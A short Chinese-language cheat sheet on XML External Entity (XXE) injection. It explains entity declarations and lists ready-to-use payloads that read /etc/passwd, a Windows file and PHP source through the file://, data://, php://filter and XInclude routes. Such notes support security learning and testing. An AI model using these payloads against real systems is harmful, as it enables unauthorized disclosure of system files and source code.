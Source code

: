 ## XXE

### 外部实体

使用 `ENTITY` 关键字定义实体
```xml
<!ENTITY entity_name "entity_value">
<!ENTITY example "Doe">
```
使用 `SYSTEM` 关键字可以使攻击者能够从远程服务器获取内容
```xml
<!ENTITY entity_name SYSTEM 'url'>
```
`PUBLIC` 和它几乎是同义词，区别在于多一个任意字符
```xml
<!ENTITY entity_name PUBLIC "any_text" "url">
```
实体必须在 `DOCTYPE` 中定义
引用时使用 `&<ENTITY_NAME>;`
```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```xml
<!DOCTYPE foo[
    <!ELEMENT foo ANY >
	<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<foo>&file;</foo>
```

- file协议 以读取windows文件为例

```xml
<!DOCTYPE foo [<!ENTITY bar SYSTEM "file:///c:/Users/CISP/Desktop/temp/gen.py">]><foo>&bar;</foo>
```

```xml
<!DOCTYPE foo [<!ENTITY bar PUBLIC "abc" "file:///c:/Users/CISP/Desktop/temp/gen.py">]><foo>&bar;</foo>
```

- data协议 Base64编码

```xml
<!DOCTYPE foo [<!ENTITY bar SYSTEM "data://text/plain;base64,YWJjZGVm">]><foo>&bar;</foo>
```

- php协议

```xml
<!DOCTYPE foo [<!ENTITY bar SYSTEM "php://filter/convert.base64-encode/resource=xxe.php">]><foo>&bar;</foo>
```

- XInclude

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```
